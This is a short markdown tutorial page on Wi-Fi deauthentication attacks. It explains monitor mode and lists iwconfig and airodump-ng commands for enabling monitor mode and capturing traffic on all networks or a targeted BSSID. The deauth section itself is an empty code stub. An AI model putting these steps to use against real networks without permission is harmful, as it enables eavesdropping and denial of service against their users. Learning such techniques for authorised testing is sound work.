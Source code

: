 ```yaml
---
description: >-
  A Wi-Fi deauthentication attack is a type of denial-of-service attack that
  targets communication between a user and a Wi-Fi wireless access point.
---
```


# Deauth

{% hint style="warning" %}
You will need a wifi adapter that allows monitor mode
{% endhint %}

&#x20;_ **Monitor mode** allows a computer with a wireless network interface controller (WNIC) to monitor all traffic received on a wireless channel. Unlike promiscuous mode, which is also used for packet sniffing, monitor mode allows packets to be captured without having to associate with an access point or ad hoc network first. Monitor mode only applies to wireless networks, while promiscuous mode can be used on both wired and wireless networks._

## Monitor mode

{% hint style="warning" %}
run _<mark style="color:blue;">`ifconfig`</mark>_ to check the name of your network adapter, in my case it is wlan0
{% endhint %}

{% code lineNumbers="true" %}
```
# turn down the network adapter
iwconfig wlan0 down

# Changing into monitor mode
iwconfig wlan0 mode monitor

# turn up the network adapter
iwconfig wlan0 up

## run iwconfig to check if monitor mode is successfully enabled 
```
{% endcode %}

## Packet Capture

{% code lineNumbers="true" %}
```
# for all network 
airodump-ng wlan0 

# for a specified network
airodump-ng wlan0 --bssid [station MAC]

```
{% endcode %}

## Deauth

{% code lineNumbers="true" %}
```
# on single client
```
{% endcode %}
